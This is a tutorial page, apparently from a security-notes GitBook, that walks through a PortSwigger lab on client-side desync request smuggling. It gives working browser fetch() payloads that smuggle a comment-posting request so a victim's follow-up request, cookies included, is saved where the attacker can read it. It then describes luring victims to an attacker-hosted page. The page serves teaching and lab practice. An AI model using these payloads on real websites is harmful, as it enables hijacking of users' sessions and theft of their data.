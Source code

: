 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Client Side Desync

## About Client Side Desync

Client side desync(CSD) happens between the browser and the vulnerable web server. Comparing to traditional request smuggling which happens on the server side where attacker try to cause a desynchronization between frontend and the backend servers.

## HTTP/1 is more vulnerable

* HTTP/2 eliminates ambiguity in request size by using a mandatory message length field.
* Previous protocols, like HTTP/1.1, rely on `Content-Length` and `Transfer-Encoding` headers to determine request size.
* This reliance can cause desynchronization issues between browser and servers if they interpret these headers differently.

## Steps to identify - Workflow

### Probing desync vectors in Burpsuite

To effectively test, send a POST request where the `Content-Length` header value exceeds the actual body size of the request.&#x20;

* If response results in a timeout -> This would suggest that the backend is **not** ignoring the `content-length` header and is waiting for the rest of the data
* if response results in a immediate response -> This suggest that the backend is probably ignoring the `content-length` header and could potentially be a CSD vector just like in CL.

{% hint style="info" %}
TIP : Send request to endpoints (e.g. static files such as images)not expecting the POST method or endpoints that have server-level redirects
{% endhint %}

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption><p>Sending POST request to / endpoint with no body and a CL of 20 results in an response code of 302</p></figcaption></figure>

{% hint style="info" %}
TIP : Send request to endpoints (e.g. static files such as images)not expecting the POST method or endpoints that have server-level redirects
{% endhint %}

### Confirm CSD vector

Once we have found a probable vulnerable endpoint, we can proceed to confirm whether it is exploitable.  Some secure servers respond without  waiting for the body to arrive but still can parse it correctly while others dont have the correct implementation of the CL header where the connection closes. All these could result in false positive.

To test,&#x20;

* Send a request with normal CL value and a prefixed payload to an arbitary endpoint&#x20;

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption><p>Server accepts our payload for the first request</p></figcaption></figure>

* Send normal follow up request

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption><p>Follow up request encounters error due to the prefix that was smuggled in the first request</p></figcaption></figure>

The first request should result in a positive respond code(200/300) while the follow up request should result in a 404 response code

{% hint style="info" %}
Important to note here is that these 2 request MUST be from the same connection!
{% endhint %}

### Replicate the POC in browser

We need to replicate the desync in the browser because this is a browser based attack vector,  we need to make sure that the attack can happen in a real browser. Using tools like burp only, we can only inspect the http traffic and we cannot determine how the browser behaves. Only when we can confirm the CSD vulnerability in the real browser

We first need to navigate to our attack server/site, usually we want to launch attack from a different site. Use the code snippet provided by James Kettle that uses fetch API to send the request via the browser developer console.

{% hint style="info" %}
Note that here we are using the catch() because we are intentionally setting CORS to true as we don't want the browser to redirect but instead throw an error and we can continue the attack with our subsequent request.
{% endhint %}

{% code overflow="wrap" %}
```javascript
fetch('https://0aa200c60365b6b883d32d0100060059.h1-web-security-academy.net/', 
    {method: 'POST', body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x', mode: 'cors',     credentials: 'include' })
    .catch(() => { fetch('https://0aa200c60365b6b883d32d0100060059.h1-web-security-academy.net/',
    { mode: 'no-cors', credentials: 'include' }) })
```
{% endcode %}

Taking a look at the network tabs shows that our first request resulted in a CORS error which is expected and second request resulted in a 404 error code.&#x20;

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption><p>Results from network tab</p></figcaption></figure>

### Identify exploitable gadget using Burp

Next, we need to find a gadget that can be exploited for this CSD vulnerability. Triggering a 404 response doesn't really demonstrate how much of impact this can make. Functionality of a website that stores text could be used here as we can retrieve passwords,sessions IDs, api keys which can be retrieved later.

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption><p>A comment functionality can be used as a gadget to capture and store the requests made by victim</p></figcaption></figure>

<div align="left">

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption><p>Subsequent request is sent and stored in the backed/database</p></figcaption></figure>

</div>

### Replicate the exploit in Browser

Again, we will use the fetch api in the developer console of the browser to see if we can achieve the same result. Note that here, we have changed our payload body to the endpoint of the storage functionality of the application

```javascript
fetch('https://0a06001e03b0b0a280ab859a00850073.h1-web-security-academy.net/', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a06001e03b0b0a280ab859a00850073.h1-web-security-academy.net\r\nCookie: session=yyaTA46Em8RgYMEYYeXVc6sr4ItseTM3; _lab_analytics=XIrLPrvxYmBTtZYGAMv4IesEkyDLP6KnEVtMUYd6JTAgGzU4IkBuAVYrjxbEd59DvX1BnNxh1HXlf33NzBiGR9EIBI19q4e8QwRMArL2dtx1UegMYEilhssX8zkpsR1u9VcvVQybdZba4zkkvg9vCLZVsxvHvjdJeb0sXbLJos2hXG8n7N6ltpvUy5TKkKt6mgFSlhx9ITBvnJLpPodda3jmUkQbQv54zdOqYB7QUVjBcicx1yR0KRWqYc6oId56\r\nContent-Length: 250\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=8YYgSdujMVp68fZhCVKy79phKbNkHD1k&postId=7&name=wiener&email=wiener@web-security-academy.net&website=https://portswigger.net&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://0a06001e03b0b0a280ab859a00850073.h1-web-security-academy.net/en/post?postId=7', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

### Exploit

The JS script needs to be hosted in the attacker environment and craft a malicious URL to send to the victim. When the victim clicks the link, it will direct them to the attacker server where the response with the malicious code is delivered to the victim's browser and malicious code will be rendered

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption><p>Victom's request is being saved into the database of the application </p></figcaption></figure>
